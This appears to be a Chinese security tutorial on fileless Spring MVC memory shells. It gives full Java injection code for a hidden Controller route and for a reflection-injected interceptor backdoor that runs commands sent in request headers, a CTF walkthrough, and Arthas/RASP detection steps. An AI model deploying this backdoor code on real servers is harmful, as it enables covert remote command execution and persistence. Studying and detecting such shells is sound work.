

# 🍃 Spring 框架级内存马深度剖析：Spring MVC 分发链路与 Controller/Interceptor 无文件注入实战

> **架构跃迁背景**：在现代企业级 Java 开发中，以 Spring Boot 为代表的微服务生态已占据绝对统治地位。
> Spring Boot 往往采用内嵌式 Web 容器（Embedded Tomcat / Jetty），开发人员不再编写传统的 `web.xml`，而是高度依赖 Spring MVC 的注解与分发机制。
> 虽然传统的 Tomcat Filter/Listener 内存马依然可以在内嵌容器上注入，但在高度封装的 Spring 抽象层中，**直接利用 Spring 自身的 IOC 容器与请求映射器（`HandlerMapping`）动态挂载恶意组件，具备更好的跨容器兼容性（通杀 Tomcat/Undertow/Jetty）与更高的隐蔽性**！

---

## 0. 基础前置认知与小白扫盲：Spring 体系下的内存马演进

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 为什么有了 Tomcat 内存马，还需要学习 Spring 内存马？
* **中间件架构的更替演进**：
  * 过去传统的 Java Web 开发需要打包成 `.war` 包，然后扔到独立的外部 Tomcat 安装目录下的 `webapps` 文件夹里运行。
  * 现代微服务架构（Spring Boot）几乎统领了企业级开发，它采用了**内嵌式容器（Embedded Tomcat / Jetty / Undertow）**，直接打成一个单独的 `.jar` 包就能 `java -jar` 跑起来。
  * 如果只掌握 Tomcat 内存马，一旦遇到微服务底层换成了 Undertow 或纯 Netty 容器，攻击就会当场哑火！
  * **Spring 内存马的降维优势**：直接在 Spring 框架本身的请求分发层进行注入，**通杀所有底层中间件**，跨平台兼容性极强！

---

### 2. Spring 核心请求调度流程生活比喻
Spring 接收到一个 HTTP 请求后，有一套极其精密的“部门分工”：
* **`DispatcherServlet`（总调度中心 / 大堂总管）**：
  * 所有的外部 HTTP 请求进入 Spring 后，第一个见到的就是它。大堂总管负责统筹全局，把任务交接给下面的人。
* **`HandlerMapping`（业务指引牌 / 路线导航仪）**：
  * 里面记录着整栋大楼所有的房间号和业务清单（所有的 `@RequestMapping` 路径）。总管会查这个指引牌，看当前这个请求路径应该由哪个业务柜台负责。
* **`HandlerInterceptor`（走廊安检保镖 / 拦截器）**：
  * 在客户前往具体业务窗口的走廊上执勤。
  * 在业务执行前（`preHandle`）和业务执行后（`postHandle`）实施监控。
* **`Controller`（具体的业务办理窗口柜员）**：
  * 真正写具体业务逻辑的地方（例如用户登录、转账、查订单）。

---

### 3. Controller 内存马 vs Interceptor 拦截器内存马：实战取舍对照
| 注入流派 | 注入原理 | 隐蔽性与实战优劣 |
| :--- | :--- | :--- |
| **Spring Controller 内存马** | 动态向 `RequestMappingHandlerMapping` 注册一个全新的 `@RequestMapping` 路由（如 `/myshell`）。 | **较低**。安全运维人员通过 Actuator 监控端点（如 `/mappings`）或代码审计，能一眼看到系统里多了一个未在 Git 仓库登记的怪异接口，极易被识破。 |
| **Spring Interceptor 拦截器内存马 (首选推荐)** | 动态向拦截器链 `adaptedInterceptors` 注册一个恶意拦截器，劫持全站现有的任意合法业务路径。 | **极高（顶级隐蔽）**！它不需要新增任何路由，黑客只要在发送正常业务请求（如 `/api/login`）时附带暗号头 `cmd: id`，拦截器在 `preHandle` 阶段直接在走廊把命令执行并打发返回，运维人员看路由表全是 100% 正规业务，完全无法肉眼甄别！ |

---

## 一、Spring MVC 请求分发底层执行链路全景

当一个 HTTP 请求进入 Spring Boot 应用时，`DispatcherServlet` 会调度内部的核心组件群完成分发：



> [!IMPORTANT]
> **Spring 内存马的两大主流流派**：
> 1. **Spring Controller 内存马**：动态向 `RequestMappingHandlerMapping` 注册一个全新的 `@RequestMapping` 路径（如 `/spring_shell`）及其对应的恶意处理方法。
> 2. **Spring Interceptor 内存马（更推荐）**：动态向拦截器链 `adaptedInterceptors` 注册一个恶意 `HandlerInterceptor`。由于拦截器在任何 Controller 执行之前生效，它可以**劫持全站任意合法的正常业务接口**，无独立特征路径！

---

## 二、Spring Controller 内存马底层实现全流程

### 1. 核心目标：获取 `RequestMappingHandlerMapping`

在 Spring MVC 中，管理所有 URL 映射关系的核心 Bean 是 **`RequestMappingHandlerMapping`**。

#### 动态获取 `WebApplicationContext` 的两大路径：
```java
// 路径 1: 从当前线程的 RequestContextHolder 抓取 (最常用)
RequestAttributes requestAttributes = RequestContextHolder.getRequestAttributes();
HttpServletRequest request = ((ServletRequestAttributes) requestAttributes).getRequest();
WebApplicationContext context = RequestContextUtils.findWebApplicationContext(request);

// 路径 2: 从 Spring 静态工具类获取
WebApplicationContext context = ContextLoader.getCurrentWebApplicationContext();
```
获取到 `context` 后，即可提取路由映射器：
```java
RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```

---

### 2. 动态注册 Controller 四步法源码拆解

```java
// 步骤 1: 编写包含执行逻辑的恶意 Controller 类实例
public class EvilController {
    public void shell(HttpServletRequest request, HttpServletResponse response) throws IOException {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.InputStream in = process.getInputStream();
            String result = new java.util.Scanner(in).useDelimiter("\\A").next();
            response.getWriter().write(result);
            response.getWriter().flush();
        }
    }
}

// 步骤 2: 反射获取当前 Controller 的执行方法对象
EvilController evilController = new EvilController();
Method shellMethod = EvilController.class.getDeclaredMethod("shell", HttpServletRequest.class, HttpServletResponse.class);

// 步骤 3: 构造 RequestMappingInfo (定义 URL 映射规则: /spring_shell)
PatternsRequestCondition patternsCondition = new PatternsRequestCondition("/spring_shell");
RequestMethodsRequestCondition methodsCondition = new RequestMethodsRequestCondition();
RequestMappingInfo mappingInfo = new RequestMappingInfo(
    patternsCondition, methodsCondition, null, null, null, null, null
);

// 步骤 4: 动态注册进 Spring 容器 (registerMapping)
mappingHandlerMapping.registerMapping(mappingInfo, evilController, shellMethod);
```

* **执行效果**：无需重启服务，Spring 路由表中即刻凭空多出一个 `/spring_shell` 接口！访问该路径即可直接执行任意系统命令并回显！

---

## 三、Spring Interceptor 内存马底层实现全流程（幽灵拦截器）

`HandlerInterceptor` 是 Spring MVC 提供的拦截器接口，其生命周期包含：
* `boolean preHandle(request, response, handler)`：**在 Controller 执行前触发**；若返回 `false`，则中断执行链，直接将响应写回客户端！
* `postHandle(...)`：在 Controller 执行后触发；
* `afterCompletion(...)`：在视图渲染完成后触发。

### 1. 内存注入核心关键点：反射读写 `adaptedInterceptors`

在 `AbstractHandlerMapping` 抽象类中，存在一个私有的 `List<HandlerInterceptor>` 字段：
```java
private final List<HandlerInterceptor> adaptedInterceptors = new ArrayList<>();
```
Spring 在初始化处理器链时，会直接从这个列表中提取所有生效的拦截器！因此，只要**通过 Java 反射拿到该列表并 `add` 进我们的恶意拦截器**，即可实现全局请求拦截！

---

### 2. 幽灵拦截器完整注入代码剖析

```java
// 步骤 1: 构造恶意 HandlerInterceptor
HandlerInterceptor evilInterceptor = new HandlerInterceptor() {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) 
            throws Exception {
        String pass = request.getHeader("X-Token-Auth");
        String cmd = request.getHeader("X-Cmd-Exec");
        
        // 校验后门密码头，防止被普通扫描器探测
        if ("super_secret_key_2026".equals(pass) && cmd != null) {
            // 💥 截获请求，执行命令
            Process p = Runtime.getRuntime().exec(cmd);
            java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter("\\A");
            String result = s.hasNext() ? s.next() : "";
            
            response.setStatus(200);
            response.getWriter().write(result);
            response.getWriter().flush();
            return false; // 💥 返回 false: 阻断正常业务 Controller 执行，隐蔽完成响应！
        }
        return true; // 正常流量一律放行，对原有业务毫无影响
    }
};

// 步骤 2: 获取当前 WebApplicationContext
WebApplicationContext context = RequestContextUtils.findWebApplicationContext(
    ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest()
);

// 步骤 3: 提取所有 HandlerMapping 实例并注入 adaptedInterceptors
Map<String, AbstractHandlerMapping> matchingBeans = BeanFactoryUtils.beansOfTypeIncludingAncestors(
    context, AbstractHandlerMapping.class, true, false
);

for (AbstractHandlerMapping mapping : matchingBeans.values()) {
    try {
        Field interceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        interceptorsField.setAccessible(true);
        List<HandlerInterceptor> interceptors = (List<HandlerInterceptor>) interceptorsField.get(mapping);
        // 💥 将恶意拦截器追加到列表首部或尾部
        interceptors.add(0, evilInterceptor);
    } catch (Exception e) {}
}
```

---

## 四、Spring 内存马两维特性对比矩阵

| 特性维度 | Spring Controller 内存马 | Spring Interceptor 内存马 |
| :--- | :--- | :--- |
| **暴露路径** | 需要绑定独立 URL（如 `/spring_shell`） | **任意路径通杀！** 可劫持 `/index`, `/login`, `/api/*` |
| **检测隐蔽度** | 中等（路由探测工具扫出新增的非常规接口） | **极高！** 外部扫描器完全看不到新路径 |
| **请求触发方式** | 直接访问映射的独立路径 | 在正常 HTTP 请求头中附加特权 Header（如 `X-Cmd-Exec`） |
| **依赖接口** | `RequestMappingHandlerMapping.registerMapping` | 反射修改 `adaptedInterceptors` 字段 |
| **跨容器表现** | Spring Boot + Tomcat/Jetty/Undertow 均 100% 通杀 | 100% 通杀 |

---

## 五、CTF 实战靶场案例复现（Spring Boot RCE 后隐蔽驻留）

### 靶场情境：Spring Boot SpEL 表达式执行到持久化无文件权限维持

1. 靶场某接口存在 Spring SpEL 表达式注入或反序列化漏洞，已具备一次性任意 Java 代码执行能力。
2. 目标环境是 Docker 容器，文件系统配置了 `read_only: true`（只读，无法在任何目录创建 `.jsp` 或 `.sh` 脚本）。
3. 业务仅开放了单个正常接口：`POST /api/user/info`。

### 1. 投递 Interceptor 内存马 Payload
将上述 Interceptor 注入代码编译为无依赖字节码，通过类加载器动态载入并执行注入。

### 2. 内存马存活与特权交互验证
直接向正常业务接口 `/api/user/info` 发送带有特权后门请求头的 HTTP 请求：

```http
POST /api/user/info HTTP/1.1
Host: challenge.ctf:8080
Content-Type: application/json
X-Token-Auth: super_secret_key_2026
X-Cmd-Exec: cat /flag

{"userId": 123}
```

### 3. 服务器响应：
```http
HTTP/1.1 200 OK
Content-Length: 45

flag{spr1ng_1nt3rc3pt0r_m3m0ry_sh3ll_fl4w13ss}
```
* **攻防复盘**：
  * 若普通用户不携带特权 Header，接口正常执行查询用户逻辑，业务功能完全正常；
  * 一旦携带特权 Header，`preHandle` 立即生效并截断返回 Flag；
  * 磁盘上没有任何文件变更，安全运维人员排查静态代码库根本无法发现任何后门！

---

## 六、Spring 内存马排查与查杀防御技术

面对深入 Spring 内部逻辑的内存马，蓝队如何反制？

### 1. 使用 Arthas 动态审查 Spring 注册表
* **查看已注册的所有 Controller 映射**：
  ```bash
  # 打印所有 RequestMappingInfo
  vmtool --action getInstances --className org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping --express 'instances[0].getHandlerMethods()'
  ```
  审查输出的 URL 列表，如果发现未在源码中声明的陌生路由，即为 Controller 内存马！
* **查看已注册的所有 Interceptor 拦截器**：
  ```bash
  # 打印 adaptedInterceptors
  vmtool --action getInstances --className org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping --express 'instances[0].adaptedInterceptors'
  ```
  如果发现某个拦截器没有实体 `.class` 对应的 Jar 包归属（或类加载器为动态代理/自定义 ClassLoader），立即锁定！

### 2. 运行时自我防御（RASP）
在 `AbstractHandlerMapping.setInterceptors()` 或动态修改 `adaptedInterceptors` 时，RASP 检查调用栈是否包含未授权反射调用，从底层阻断集合篡改。

---

## 🔗 相关双向链接
- 上级模块：[[10-Java安全高阶与内存马]]
- 前置传统：[[01-Servlet、Filter、Listener传统组件内存马注入]]
- 终极进阶：[[03-Agent内存马：动态Attach与字节码注入持久化]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
